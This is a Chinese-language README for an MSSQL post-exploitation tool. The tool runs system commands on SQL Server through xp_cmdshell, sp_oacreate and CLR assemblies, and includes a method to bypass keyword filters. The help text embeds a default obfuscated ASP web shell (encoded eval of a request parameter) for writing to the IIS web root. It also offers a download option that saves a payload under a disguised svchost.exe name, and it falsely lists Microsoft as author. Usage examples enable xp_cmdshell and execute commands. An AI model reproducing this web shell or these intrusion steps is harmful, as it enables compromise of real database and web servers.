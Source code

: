 # mssql-command-tool

#### 声明
我没有学过go语言可能代码写的很垃圾，但是工具能用就行了。

因为wolvez老哥的没有写自定义mssql端口，我就添加了这个功能 
官方链接：[http://wolvez.club/2019/09/19/mssql-command-tool/](http://wolvez.club/2019/09/19/mssql-command-tool/)
感谢老哥分享。

示例：
NAME:
   Mssql Toolkit - mssql command tool

USAGE:
   mssql-command-tools.exe [global options] command [command options] [arguments...]

AUTHOR:
   Microsoft.com

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --server value, --host value, -s value  The database server (default: "127.0.0.1")
   --user value, -u value                  The database user (default: "sa")
   --password value, -p value              The database password
   --database value, -d value              The database name (default: "msdb")
   --port value, -P value                  The database port (default: 1433)
   --query value, -q value, --sql value    SQL query (default: "select @@version")
   --cmd value, -c value, --exec value     Exec System Command | xp_cmdshell命令执行 (default: "whoami")
   --cmd1 value, --c1 value                Exec System Command | sp_oacreate无回显执行 (default: "whoami >C:\\whoami.log")
   --cmd2 value, --c2 value                Exec System Command | sp_oacreate有回显执行 (default: "whoami")
   --cmd3 value, --c3 value                Exec System Command | clr无回显执行 (default: "whoami >C:\\whoami.log")
   --cmd4 value, --c4 value                Exec System Command | 自写clr执行 (default: "-c4 net -c5 user")
   --cmd5 value, --c5 value                Exec System Command | 自写clr执行 (default: "-c4 net -c5 user")
   --cmd6 value, --c6 value                Exec System Command | xp_cmdshell命令执行|过滤了xp_cmdshell等关键字提交方法语句 (default: "-c6 whoami")
   --dir value, --dirtree value            xp_dirtree列目录 | dir c:
   --path value                            网站路径 -path + -code | c:\inetpub\wwwroot\cmd.asp (default: "c:\\inetpub\\wwwroot\\cmd.asp")
   --code value                            -path + -code | 如果代码有"就加\来匹配<%eval request("cmd")%>网站路径和asp密 码默认:LandGrey (default: "<%@codepage=65000%><%@codepage=65000%><%+AHIAZQBzAHAAbwBuAHMAZQAuAGMAbwBkAGUAcABhAGcAZQA9ADYANQAwADAAMQA6AGUAdgBhAGwAKAByAGUAcQB1AGUAcwB0ACgAIgBMAGEAbgBkAEcAcgBlAHkAIgApACk-%>")
   --downurl value                         下载文件的url地址 | http://www.microsoft.com/defender.exe
   --filepath value                        下载文件的路径 | c:\programdata\svchost.exe
   --debug                                 Debug info
   --enable, -e                            Enabled xp_cmdshell
   --disable, --diclose                    Disable xp_cmdshell
   --ole, --oleopen                        Enabled sp_oacreate
   --dole, --dolose                        Disable sp_oacreate
   --clr, --clropen                        Enabled clr enabled
   --dclr, --dclose                        Disable clr enabled
   --install_clr, --in_clr                 install clr
   --uninstall_clr, --un_clr               uninstall clr
   --install_clrcmd, --in_clrcmd           install clrcmd
   --uninstall_clrcmd, --un_clrcmd         uninstall clrcmd
   --help, -h                              show help
##### Windows环境

```
mssql-command-tool-win.exe

mssql-command-tool-win.exe -host 127.0.0.1 -u sa -p admin -c "whoami" -P 1438
mssql-command-tool-win.exe -host 127.0.0.1 -u sa -p admin -c "whoami" -port 1438

开启xp_cmdshell组件
mssql-command-tool-win.exe -host 127.0.0.1 -u sa -p admin -P 1438 --enable/--e

开启sp_oacreate组件
mssql-command-tool-win.exe -host 127.0.0.1 -u sa -p admin -P 1438 --ole/--o

执行命令：
mssql-command-tool-win.exe -host 127.0.0.1 -u sa -p admin -C "c:\windows\system32\cmd.exe /c whoami >c:\whoami.txt -port 1438
```

##### Linux环境

```
mssql-command-tool-linux

./mssql-command-tool-linux -host 127.0.0.1 -u sa -p admin -c "whoami" -P 1438
./mssql-command-tool-linux -host 127.0.0.1 -u sa -p admin -c "whoami" -port 1438

开启xp_cmdshell组件
./mssql-command-tool-linux -host 127.0.0.1 -u sa -p admin -P 1438 --enable/--e

开启sp_oacreate组件
./mssql-command-tool-linux -host 127.0.0.1 -u sa -p admin -P 1438 --ole/--o

执行命令：
./mssql-command-tool-linux -host 127.0.0.1 -u sa -p admin -C "c:\windows\system32\cmd.exe /c whoami >c:\whoami.txt -port 1438
```
